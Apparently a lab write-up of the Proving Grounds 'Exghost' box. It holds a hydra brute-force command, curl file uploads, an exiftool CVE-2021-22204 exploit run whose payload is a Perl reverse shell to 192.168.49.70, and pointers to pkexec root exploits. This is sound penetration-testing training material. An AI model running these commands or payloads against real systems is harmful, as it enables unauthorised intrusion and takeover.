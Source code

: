 # PG Practice: Exghost
https://medium.com/@vivek-kumar/offensive-security-proving-grounds-walk-through-exghost-2e9a969ef711

`export IP=192.168.70.183`

### All failed so go with Bruteforce
`https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/best1050.txt`

```
hydra -t 20 -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P password.txt -vV $IP ftp
```
I know ridiculous `user:system`

### ftp
```
❯ ftp $IP
Connected to 192.168.70.183.
220 (vsFTPd 3.0.3)
Name (192.168.70.183:alvin): user
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -alh
229 Entering Extended Passive Mode (|||43520|)
^C
receive aborted. Waiting for remote to finish abort.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0          126151 Jan 27  2022 backup
226 Directory send OK.
ftp> get backup
local: backup remote: backup
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for backup (126151 bytes).
100% |***********************************************************************************************************************************************|   123 KiB  126.06 KiB/s    00:00 ETA
226 Transfer complete.
126151 bytes received in 00:01 (105.24 KiB/s)
```

### wireshark to the packet capture
```
POST /exiftest.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------169621313238602050593908562572
Content-Length: 14806
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/
Upgrade-Insecure-Requests: 1

-----------------------------169621313238602050593908562572
Content-Disposition: form-data; name="myFile"; filename="testme.jpg"           // <- myFile as the entry
Content-Type: image/jpeg
```
opening it with Wireshark to enumerate further. Filtering the HTTP packets, we see that someone uploaded an image to ip/exiftest.php and the upload was successful. We also can see the version of ExifTool running on the box.

Under `line-based text data` of the 200 response. File uploaded successfully :) ExifTool Version Number         : 12.23\n

### Let's try to upload a file
```
echo 'wqer 1234' > test01.txt

curl -F 'myFile=@test01.txt' -k http://192.168.70.183/exiftest.php
File not allowed.

curl -F 'myFile=@image.jpg' -k http://192.168.70.183/exiftest.php
jpg file might be allowed
```

### Exploit the exiftool by gooling its version
https://www.exploit-db.com/exploits/50911

```
❯ python3 exploit.py -s 192.168.49.70 7890

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
RUNNING: UNICORD Exploit for CVE-2021-22204
PAYLOAD: (metadata "\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(7890,inet_aton('192.168.49.70')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};};")
RUNTIME: DONE - Exploit image written to 'image.jpg'
```


### Got the user.txt
##### linpeas
```
Vulnerable to CVE-2021-4034 # https://github.com/topics/cve-2021-4034

Vulnerable to CVE-2021-3560 # Not working, tried CVE-2021-3560-Polkit-Privilege-Esclation
```

###
There is no compiler installed on the machine. I cloned a few of the available exploits but any C code compiled on my system doesn’t seem to work on the target machine. Finding a python exploit for the same. And it works giving us a root shell. Refer: https://github.com/joeammond/CVE-2021-4034

# Sum up
Try python script when above issues happened
https://github.com/topics/cve-2021-4034

I found this one instead. https://github.com/A1vinSmith/CVE-2021-4034
